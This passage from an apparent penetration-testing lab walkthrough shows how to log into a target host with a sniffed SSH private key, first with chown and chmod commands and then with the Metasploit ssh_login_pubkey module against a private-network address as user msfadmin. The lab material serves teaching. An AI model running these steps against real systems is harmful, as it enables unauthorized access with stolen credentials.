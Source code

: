 Now we have placed target machine's public key into its authorized keys of the target and sniffed its private key. We can simply connect to the target using ssh-client with the target private key, but here I am using ssh_login_pubkey auxiliary of the metasploit frameowork because it automate the task of authentication if we have **multiple private keys** and didn't know which key is used to authenticate with the target, or we have **multiple targets** or we have **multiple users and key pair**, In that case we use this modules to automatically trying to authenticate with username and keys-pairs instead of manually checking.
```
#if current user don't have permission with sniffed private key file then,
sudo chown kali target_rsa_idd
sudo chmod 600 target_rsa_idd
```

```
msfconsole
msf>search ssh_login_pubkey
msf> use auxiliary/scanner/ssh/ssh_login_pubkey
#setting the required field 
msf  auxiliary(ssh_login_pubkey) > options
msf  auxiliary(ssh_login_pubkey) > set RHOSTS 192.168.1.103
#Must ensure that that the key file has right(read,write) permission to current user
msf  auxiliary(ssh_login_pubkey) > set KEY_FILE /home/kali/target_id_rsa
msf auxiliary(ssh_login_pubkey) > set USERNAME msfadmin
msf auxiliary(ssh_login_pubkey) > exploit

```
**Output**
![](../images/changing_ownership_and_permission_of_sniffed_key_file.png)
